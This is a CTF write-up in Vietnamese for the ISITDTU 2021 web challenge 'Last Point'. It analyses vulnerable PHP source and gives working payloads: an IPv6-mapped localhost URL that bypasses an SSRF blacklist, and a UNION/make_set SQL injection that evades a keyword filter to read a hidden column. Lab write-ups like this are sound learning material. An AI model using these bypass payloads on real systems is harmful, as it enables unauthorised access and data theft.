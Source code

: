 ```yaml
---
title: ISITDTU CTF 2021 | Web Writeup | Last Point
author:
  name: Antoine Hoang
  link: https://github.com/antoinenguyen-09
date: 2021-12-08 11:22:00 +0700
categories: [CTF, Web Challenges]
tags: [writeups, web, isitdtu21]
mermaid: true
---
```


# lastpoint

![image](https://user-images.githubusercontent.com/61876488/144350159-7f1593ac-038a-4531-82e5-81c0bb4fcbb2.png)


[Source](https://github.com/antoinenguyen-09/All_CTF_write-ups/tree/master/ISITDTU%20CTF/2021/web/last%20point/source)

## Initial reconnaissance:

Đầu tiên chúng ta cần tạo account để login vào:

![](https://i.imgur.com/6e4zTGP.png)

Xem qua source của trang [login](https://github.com/antoinenguyen-09/All_CTF_write-ups/blob/master/ISITDTU%20CTF/2021/web/last%20point/source/src/login.php) và [register](https://github.com/antoinenguyen-09/All_CTF_write-ups/blob/master/ISITDTU%20CTF/2021/web/last%20point/source/src/register.php) cũng bình thường không có gì, chỉ còn mỗi 2 trang [index](https://github.com/antoinenguyen-09/All_CTF_write-ups/blob/master/ISITDTU%20CTF/2021/web/last%20point/source/src/index.php) và [home](https://github.com/antoinenguyen-09/All_CTF_write-ups/blob/master/ISITDTU%20CTF/2021/web/last%20point/source/src/home.php) để chúng ta xem xét.

## Analyze and find the vulnerabilities:

### a) index.php:

![](https://i.imgur.com/9iZ7VYu.png)

Mới nhìn vào có vẻ đây là tính năng nhập một URL bất kì rồi trả về nội dung của URL đó. Hướng đi của challenge này có vẻ là là khai thác [SSRF](https://portswigger.net/web-security/ssrf) rồi. Nhưng trước hết chúng ta sẽ gặp vật cản đầu tiên là hàm `filter` dưới đây:

```php
function filter($url) {
	$black_lists = ['127.0.0.1', '0.0.0.0'];
	$url_parse = parse_url($url);
	$ip = gethostbyname($url_parse['host']);
    if (in_array($ip,$black_lists)) {
        return false;
    }
	return true;
}
```
Tác giả đã lộ rõ ý đồ blacklist 2 ip là `127.0.0.1` và `0.0.0.0`, vì 2 ip này đếu trỏ đến `localhost`, điểm mấu chốt để khai thác SSRF. Thậm chí ngay cả khi bạn nhập vào url `https://localhost/home.php` rồi submit thì nó cũng cho kết quả tương tự:

![](https://i.imgur.com/r5pdh7A.png)

Không những blacklist 2 ip này mà tác giả còn sanitize và validate biến `$url` bằng cách lowercase, regex. Nếu pass qua được hết thì một curl session sẽ được tạo với biến `$url`, kết quả của curl session này sẽ được trả về tại biến `$output` (tham khảo về cách dùng curl tại [đây](https://viblo.asia/p/curl-va-cach-su-dung-trong-php-naQZRAXdKvx)). Còn nếu không pass sẽ kết thúc chương trình và in ra "NO NO NO NO" như hình trên:

```php
$url = strtolower($_POST['url']);
$check = filter($url);
if (filter_var($url,FILTER_VALIDATE_URL,FILTER_FLAG_IPV4) && preg_match('/(^https?:\/\/[^:\/]+)/',$url) && $check) {
    sleep(1);
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
    curl_setopt($ch, CURLOPT_FOLLOWLOCATION, false);
    curl_setopt($ch, CURLOPT_CONNECTTIMEOUT, 3);
    curl_setopt($ch, CURLOPT_TIMEOUT, 1);
    $output = curl_exec($ch);
    curl_close($ch);
} 
else {
    die ("NO NO NO NO");
}
```

### b) home.php:

![](https://i.imgur.com/tVnPZzL.png)

Có lẽ có một tính năng "ẩn" ở `home.php` vì một lí do nào đó chúng ta lại không sử dụng được. Từ source ta biết được rằng `home.php` luôn luôn in ra "This is not a private ip" nếu như [client ip address](https://www.geeksforgeeks.org/php-determining-client-ip-address) trong request gửi đến trang này không phải là `127.0.0.1`:

```php
if ($_SERVER['REMOTE_ADDR'] !== "127.0.0.1") {
  die("<center>This is not a private ip</center>");
}
```
Xem kĩ source thì chúng ta biết được tính năng "ẩn" đó cho phép chúng ta truy vấn thông tin của các user trên web app này thông qua url parameter là `id`:

```php
if (isset($_GET['id'])) {
  $id = $_GET['id'];
  if (!preg_match('/sys|procedure|xml|concat|group|db|where|like|limit|in|0x|extract|by|load|as|binary|
    join|using|pow|column|table|exp|info|insert|to|del|admin|pass|sec|hex|username|regex|id|if|case|and|or|ascii|[~.^\-\/\\\=<>+\'"$%#]/i',$id) && strlen($id) < 90) {
    $query = "SELECT id,username FROM users WHERE id={$id};";
    $result = $conn->query($query);
    while ($row = $result->fetch_assoc()) {
      echo "<tr><th>".$row['id']."</th><th>".$row['username'];
    }
    $result->free();
  }
}
```
Nhưng đoạn code trên lại không dùng [prepared statement](https://www.w3schools.com/php/php_mysql_prepared_statements.asp) để truy vấn mà lại dùng hàm [query](https://www.php.net/manual/en/sqlite3.query.php). Do đó chắn chắn sẽ bị SQL Injection, vấn đề chỉ nằm ở việc có bypass được cái regex `/sys|procedure|xml|concat|group|db|where|like|limit|in|0x|extract|by|load|as|binary|join|using|pow|column|table|exp|info|insert|to|del|admin|pass|sec|hex|username|regex|id|if|case|and|or|ascii|[~.^\-\/\\\=<>+\'"$%#]/i` hay không. Có lẽ khai thác SQLi xong chúng ta sẽ lấy được flag?

## Exploit and get flag:

Sau khi xem xét 2 tính năng của `index.php` và `home.php`, chúng ta có thể rút ra hướng để khai thác như sau:

- Bypass SSRF filter ở chức năng submit url tại trang `index.php` sao cho có thể gọi đến localhost của chính web app này, dùng nó để request và in ra nội dung của `home.php`.
- In ra được `home.php` thì chỉ việc bypass regex nữa là tha hồ lượn trong database của cái app này.

### a) Bypass SSRF filter:

Để bypass được mọi thể loại filter thì cách nhàn hạ và nhanh nhất để là đi mò cheat sheet :D Sau khi thử hàng loạt payload trong cái [SSRF cheat sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md#payloads-with-localhost) thần thành này thì mình phát hiện ra có cái này dùng được:

```
http://[0:0:0:0:0:ffff:127.0.0.1]
```

![](https://i.imgur.com/VOawqca.png)

### b) Bypass SQLi filter:

Trong regex dùng để filter SQLi này:

`/sys|procedure|xml|concat|group|db|where|like|limit|in|0x|extract|by|load|as|binary|join|using|pow|column|table|exp|info|insert|to|del|admin|pass|sec|hex|username|regex|id|if|case|and|or|ascii|[~.^\-\/\\\=<>+\'"$%#]/i`

Chúng ta phát hiện ra không có `union` trong số đó. Vậy thì còn ngần ngại gì mà không [UNION attack](https://portswigger.net/web-security/sql-injection/union-attacks) nữa!

Mục tiêu của việc exploit SQLi theo kiểu UNION attack là in ra toàn bộ data từ table `user`. Nếu như phải test black box thì cần có 1 bước là xác định số cột của `user`, nhưng mà trong source có luôn cả script sql ([main.sql](https://github.com/antoinenguyen-09/All_CTF_write-ups/blob/master/ISITDTU%20CTF/2021/web/last%20point/source/mysql/main.sql)) tạo table này nên không cần phải làm nữa:

```sql
CREATE TABLE `users` (
  `id` int(11) NOT NULL,
  `username` text NOT NULL,
  `password` text NOT NULL,
  `[CENSORED]` text NOT NULL
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4;
```

Table `user` có 4 column, nhưng lại có 1 column "ẩn" được đánh dấu là `[CENSORED]`, rất có thể flag sẽ nằm trong column này. Mặc dù không biết tên column này nhưng chúng ta lại biết được column này có index là 4 trong table `user`. Liệu có thể dùng `SELECT` để query `user` nhưng không dùng tên mà chỉ dùng index của column?
Nếu kết hợp khéo léo một chút giữa `SELECT` và hàm [make_set()](https://database.guide/how-the-make_set-function-works-in-mysql/) trong MySQL thì câu trả lời là có. Quá trình build script với ý tưởng này khá là loằng ngoằng, bạn có thể xem tóm tắt trong hình dưới. Ở đây mình tạo một table user tương tự như của web app nhưng chỉ có 2 cột là id và username.

![](https://i.imgur.com/j9poFif.png)

Oke, vậy payload SQLi cuối cùng sẽ là:

```sql
1 union select 1,make_set(1|4,`2`,`3`,`4`)from(select 1,2,3,4 union select * from users)a
```

Ghép với payload SSRF ở trên nữa ta sẽ lấy được flag:

![](https://i.imgur.com/CGrDwKp.png)

My final payload:

```
http://[0:0:0:0:0:ffff:127.0.0.1]/home.php?id=1%20union%20select%201,make_set(1%7c4,%602%60,%603%60,%604%60)from(select%201,2,3,4%20union%20select%20*%20from%20users)a
```

Flag: `ISITDTU{w0w_SSRF_ch4in_SQLI_3Zzzz_h3he_!!!!}`





